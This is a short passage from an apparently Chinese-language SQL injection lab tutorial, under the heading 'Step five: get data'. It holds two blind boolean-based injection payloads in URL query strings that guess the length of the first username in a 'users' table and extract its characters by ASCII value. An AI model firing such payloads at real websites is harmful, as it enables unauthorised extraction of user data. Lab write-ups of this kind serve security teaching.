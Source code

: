 ![image-20250904021618490](images/image-20250904021618490.png)



------

## 🔎 第五步：获取数据

比如第一条用户：

```
?id=1' and length((select username from users limit 0,1))=5 --+    不需要
?id=1' and ascii(substr((select username from users limit 0,1),1,1))=68 --+   直接三个一起爆
```
